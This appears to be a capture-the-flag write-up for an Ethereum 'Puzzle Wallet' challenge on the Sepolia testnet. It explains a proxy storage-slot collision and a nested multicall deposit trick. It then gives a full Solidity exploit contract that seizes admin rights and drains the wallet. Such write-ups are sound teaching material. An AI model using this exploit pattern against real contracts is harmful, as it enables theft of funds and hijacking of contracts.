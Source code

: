 Notice that the admin variable resides in the second storage slot of the proxy wallet while the second slot is occupied by maxBalance in the implementation contract. So, if we manage to update this variable, we will actually be updating the admin variable in the proxy contract. This can be done by calling the `setMaxBalance()` function. However, to call this function, our account must be whitelisted and the balance of the wallet must be 0. Now, to get whitelisted, we must be the owner of the puzzleWallet contract. Notice that the corresponding variable in the proxy contract is pending admin. So, if we change the value of this variable, this will reflect in the owner variable in the puzzleWallet. To do this we can simply call the `proposeNewAdmin()` function and pass the hack contract's address. Now we can call the `addToWhitelist()` function and pass the hack contract's address to get it whitelisted. the ether balance of the wallet is 0.001 ETH which I found from the sepolia etherscan. To drain the ether, we need to send some ether to the contract so that we have some balance and then withdraw all the ether after that. But we can never have more balance than what we deposited, making it impossible for us to withdraw the entire balance of the wallet. This can be achieved by making nested calls to the `multicall()` function. The catch is that when we are iterating based on a call, the `msg.value` of the call remains same throughout the entire loop. But here a restriction has been imposed inside the loop due to which we can't call the `deposit()` function twice. But, this can be bypassed by making a call to the `deposit()` function in the first iteration and the `multicall()` in the second iteration, calling the `deposit()` function again in the second multicall. This will help us bypass the check on the depositCalled variable. During this whole process the `msg.value` remains same. So even though we sent only 0.001 ETH, our balance will be reflected as 0.002 ETH, which happens to be the entire wallet's balance. So, now we can simply make a withdrawl to drain the wallet. Now we pass all the conditions required to call the `setMaxBalance()` function, doing which will change the admin address to our account. Find the hack contract below -

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IWallet {
    function admin() external view returns (address);
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function multicall(bytes[] calldata data) external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
}

contract hack {
    constructor(IWallet wallet) payable {
        wallet.proposeNewAdmin(address(this));
        wallet.addToWhitelist(address(this));

        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSelector(wallet.deposit.selector);

        bytes[] memory data = new bytes[](2);
        data[0] = deposit_data[0];
        data[1] = abi.encodeWithSelector(wallet.multicall.selector, deposit_data);
        wallet.multicall{value: 0.001 ether}(data);

        wallet.execute(msg.sender, 0.002 ether, "");

        wallet.setMaxBalance(uint256(uint160(msg.sender)));

        require(wallet.admin()==msg.sender, "hack failed");

        selfdestruct(payable(msg.sender));
    }
}
```
